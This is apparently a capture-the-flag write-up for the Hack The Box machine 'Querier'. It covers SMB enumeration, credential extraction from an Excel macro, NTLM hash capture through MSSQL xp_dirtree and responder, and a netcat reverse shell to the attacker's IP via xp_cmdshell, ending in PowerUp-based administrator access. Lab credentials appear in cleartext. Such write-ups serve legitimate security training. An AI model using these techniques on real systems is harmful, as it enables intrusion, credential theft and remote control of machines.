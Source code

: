 # [Querier](https://app.hackthebox.com/machines/querier)

```bash
nmap -p- --min-rate 10000  10.10.10.125 -Pn  
```

![Alt text](img/image.png)

After knowing open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p135,139,445,1433,5985,47001 10.10.10.125 -Pn 
```

![Alt text](img/image-1.png)


I just enumerate SMB shares via `smbclient` command.

```bash
smbclient -N -L //10.10.10.125
```

![Alt text](img/image-2.png)

I connected into 'Reports' directory of this SMB share via `smbclient` commnad.

```bash
smbclient -N //10.10.10.125/Reports
```

![Alt text](img/image-3.png)

To read this file, I use `olevba` command.

```bash
olevba FILE.xlsm
```

![Alt text](img/image-4.png)


From here, I got cleartext database credentials.

reporting: PcwTWTHRwryjc$c6


Let's connect into MSSQL via this credentials. I use `impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth
```

I check my current user's accessed databases and tables, but I can't find any sensitive credentials.

That's why I need to switch into another user.

For this, we need to relay attack.

1.First, we need to make request.
```bash
xp_dirtree '\\10.10.14.3\a'
```

![Alt text](img/image-5.png)

2.Then catch NTLM credentials via `responder` tool.

```bash
responder -I tun0
```

![Alt text](img/image-6.png)


Let's get NTLM hash crack this via `hashcat` tool.

```bash
hashcat -m 5600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```

![Alt text](img/image-7.png)


Hola, I found a password 'corporate568'.

Now, we have valid credentials.

mssql-svc: corporate568


Let's login into MSSQL via this credentials.

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py mssql-svc:'corporate568'@10.10.10.125 -windows-auth
```

I can execute commands by typing firstly 'enable_xp_cmdshell', then I write a command in front of 'xp_cmdshell' and it works.

xp_cmdshell whoami

![Alt text](img/image-8.png)

As we can execute commands, let's do reverse shell.

1.First, we need to open SMB share where we have `nc.exe`.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support share .
```



2.Then, we need to add our malicious reverse shell SQL query into MSSQL Shell as below.
```sql
xp_cmdshell \\10.10.14.3\share\nc.exe -e cmd.exe 10.10.14.3 1337
```


I got reverse shell from port (1337).

![Alt text](img/image-10.png)



Note: If you have such error as below, please turn on SMB2 support feature by adding `-smb2support`

![Alt text](img/image-9.png)


user.txt

![Alt text](img/image-11.png)


Now, I upload 'PowerUp.ps1' file into my target machine.
```bash
xcopy \\10.10.14.3\share\PowerUp.ps1 .
```

![Alt text](img/image-12.png)

![Alt text](img/image-13.png)


Let's execute this script.

```bash
. .\PowerUp.ps1
Invoke-AllChecks
```

![Alt text](img/image-14.png)


I found cleartext credentials from here.

Administrator: MyUnclesAreMarioAndLuigi!!1!


Let's connect into machine via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -u administrator -p 'MyUnclesAreMarioAndLuigi!!1!' -i 10.10.10.125
```


root.txt

![Alt text](img/image-15.png)